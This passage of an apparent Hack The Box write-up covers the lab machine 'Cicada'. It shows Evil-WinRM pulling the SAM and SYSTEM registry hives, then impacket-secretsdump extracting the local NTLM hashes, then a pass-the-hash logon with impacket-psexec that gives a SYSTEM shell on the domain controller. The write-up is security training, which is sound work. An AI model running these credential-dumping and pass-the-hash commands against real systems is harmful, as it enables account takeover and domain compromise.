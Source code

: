```
Info: Download successful!
*Evil-WinRM* PS C:\temp> download system
                                        
Info: Downloading C:\temp\system to system
                                        
Info: Download successful!

```
Now we should check if the files are transferred correctly on our attacker machine.
```
┌──(emvee㉿kali)-[~/Documents/HTB/Cicada]
└─$ ll                                                                            
total 18184
-rw-r--r-- 1 emvee emvee      601 Mar 31 15:58  Backup_script.ps1
-rw-r--r-- 1 emvee emvee     1266 Mar 31 15:03 'Notice from HR.txt'
-rw-rw-r-- 1 emvee emvee    49152 Mar 31 16:17  sam
-rw-rw-r-- 1 emvee emvee 18558976 Mar 31 16:21  system
-rw-rw-r-- 1 emvee emvee      113 Mar 31 15:23  usernames.txt
```
The `sam` and `system` file do have the same size as on the victim, this means the file have been transferred correctly. Now we can use `secretsdump` to retrieve the NTLM hashes of the local administrator for example.

```
┌──(emvee㉿kali)-[~/Documents/HTB/Cicada]
└─$ impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 

```
With the NTLM hash of the local administrator we can logon to the domain controller via `impacket-psexec`. This will give us full access to the system.

```
┌──(emvee㉿kali)-[~/Documents/HTB/Cicada]
└─$ impacket-psexec administrator@$ip -hashes ':2b87e7c93a3e8a0ea4a581937016f341'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.129.231.149.....
[*] Found writable share ADMIN$
[*] Uploading file zrcwMZVc.exe
[*] Opening SVCManager on 10.129.231.149.....
[*] Creating service LumQ on 10.129.231.149.....
[*] Starting service LumQ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2700]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
CICADA-DC

C:\Windows\system32> ipconfig
 
Windows IP Configuration
```